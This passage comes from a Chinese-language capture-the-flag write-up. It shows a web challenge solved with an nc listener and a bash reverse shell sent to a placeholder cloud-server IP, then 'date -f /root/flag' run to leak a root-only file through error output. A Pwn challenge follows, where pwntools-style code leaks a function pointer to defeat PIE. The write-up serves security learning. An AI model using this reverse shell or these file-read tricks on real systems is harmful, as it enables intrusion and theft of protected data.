 ##### date

date -f 可以从文件中读取日期，如果不是日期则会报错并输出文件内容。

由于需要从报错中查看文件内容，我们需要反弹shell：

在云服务器上运行 `nc -lvp 2333`，在网页执行命令 `bash -c "bash -i  >&/dev/tcp/云服务器ip/2333 0>&1"`，成功得到shell后，执行 `date -f /root/flag` 得到 flag。

![image-20250116174723902](BestiCTF S1 Week15.assets/image-20250116174723902.png)

#### 总结

- RCE命令执行
	- 提权
		- suid提权



## Pwn

### [防不胜防](https://www.nssctf.cn/team/problem/6281)

#### 题目描述

***本意是好的，只是 Glibc 执行坏了***

爱，并不是一定是拥有，哪怕只是能多了解你一点，也好。

#### 解题思路

checksec 一下，发现是全保护：

![image-20250116183033476](BestiCTF S1 Week15.assets/image-20250116183033476.png)

IDA 打开，阅读代码：

![image-20250116212211987](BestiCTF S1 Week15.assets/image-20250116212211987.png)

可以发现 v9 所指向的函数会读取 /flag，将内容存到 0x202040 中。很明显由于程序有 PIE 保护，我们不知道 0x202040 运行时的绝对地址，我们需要获取基地址。我们可以看到，第19行的`sub_E40(v8, 16LL);`是读取16个字节，而 v8 后面是 v9，我们可以输入十六个非0字符，从而使得下一行输出时会继续输出v9，即函数sub_CF0 的地址，减去 0xCF0 即可得到基地址，代码如下：

```python
target_address = 0x202040

# Get base address and rebase
known_address_offset = 0xCF0

payload = b'a' * 0x10
p.send(payload)
p.recvuntil(payload)

known_address = u64(p.recvline().strip(b' into the server!\n').ljust(8, b'\x00'))
base_address = known_address - known_address_offset

print("base_address: " + hex(base_address))
target_address = target_address + base_address
```
